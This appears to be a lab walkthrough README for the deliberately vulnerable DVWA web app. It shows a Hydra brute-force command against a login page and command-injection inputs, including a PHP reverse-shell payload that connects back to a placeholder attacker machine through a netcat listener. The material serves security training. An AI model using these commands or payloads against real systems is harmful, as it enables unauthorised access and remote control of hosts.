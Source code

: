 ## Set up DVWA

You'll need to set up the DVWA. To do this type any letter or word in the `username` and `password` fields. You'll be directed to the **Database Setup page**. Go to the bottom of the page and click the `Create / Reset Databse` button. Once the database has been created you'll be redirected to the login screen once more.  

## Brute Force the login page

<img alt="Hydra" src="https://img.shields.io/badge/-Hydra-1a73e8?style=flat-square&logo=Hydra&logoColor=white" />

MACHINE_IP/login.php

` hydra -l admin -P <path/to/file> MACHINE_IP http-post-form "/:username=^USER^&^password=PASS^:F='Login failed'" -V `


## Command Injection

##### Vulnerability Level: 

[![css progressbar](https://readme-components.vercel.app/api?component=linearprogress&skill=Low&value=25)](https://github.com/harish-sethuraman/readme-components)

1. Testing for vulnerability by listing the directories
` 8.8.8.8;ls `

2. Gaining a Reverse Shell
    - Open a netcat listener in Kali terminal
    ` nc -lnvp 4242`

    - Past this code in the 'Enter an IP address: ' form. Make sure to prepend an IP address for the ping command to run and the reverse shell to work.
    `8.8.8.8;php -r '$sock=fsockopen("<KaliMachineIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' php -r '$sock=fsockopen("<kaliMACHINEIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' `
